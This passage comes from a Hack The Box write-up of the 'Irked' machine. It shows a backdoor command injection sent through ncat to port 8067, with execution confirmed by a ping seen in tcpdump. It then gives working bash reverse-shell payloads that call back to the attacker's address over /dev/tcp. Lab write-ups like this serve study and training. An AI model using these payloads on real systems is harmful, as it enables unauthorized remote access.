 - DEBUGMODE3_INFO = AB string
- readbuf => command that is going to inject in the code as system statement.

#### TcpDump

tcpdump is a **data-network packet analyzer computer program** that runs under a command line interface. It allows the user to display TCP/IP and other packets being transmitted or received over a network to which the computer is attached.

```sh
tcpdump -i tun0 icmp
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/20.jpg)

ping -c 1 ipaddress => ping for one time linux
ping -n 1 ipaddress => ping for one time windows

```
echo "AB; ping  -c 1 10.10.16.225" | ncat 10.10.10.117 8067
```

- pipe that string to netcat

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/21.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/22.jpg)

```sh
tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:20:55.601475 IP irked.htb > 10.10.16.225: ICMP echo request, id 1979, seq 1, length 64
12:20:55.601527 IP 10.10.16.225 > irked.htb: ICMP echo reply, id 1979, seq 1, length 64
```

- after sending request i replied to that request

> so we can connect back using reverse shell

- netcat initialized

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/23.jpg)

```sh
echo "AB; bash -i >& /dev/tcp/10.10.16.225/9001 0>&1" | ncat 10.10.10.117 8067
```

- we didn't get a shell

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/24.jpg)


```
echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.16.225/9001 0>&1'" | ncat 10.10.10.117 8067
```

- It is worked 
